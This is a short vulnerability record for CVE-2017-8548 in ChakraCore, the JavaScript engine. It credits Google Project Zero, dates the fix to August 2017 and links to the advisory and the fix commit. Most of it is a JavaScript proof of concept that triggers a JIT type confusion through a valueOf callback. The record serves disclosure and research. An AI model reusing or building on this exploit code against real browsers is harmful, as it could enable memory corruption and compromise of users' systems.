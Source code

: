 # CVE-2017-8548

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
'use strict';

function func(a, b, c) {
    a[0] = 1.2;
    b[0] = c;
    a[1] = 2.2;
    a[0] = 2.3023e-320;
}

function main() {
    var a = [1.1, 2.2];
    var b = new Uint32Array(0);  // <<--------- 100 -> 0

    // force to optimize
    for (var i = 0; i < 0x10000; i++)
        func(a, b, i);

    func(a, b, {valueOf: () => {
        a[0] = {};

        return 0;
    }});

    a[0].toString();
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8548)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1290)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/cd60f3b5c35592006caae7730760a7980857990c)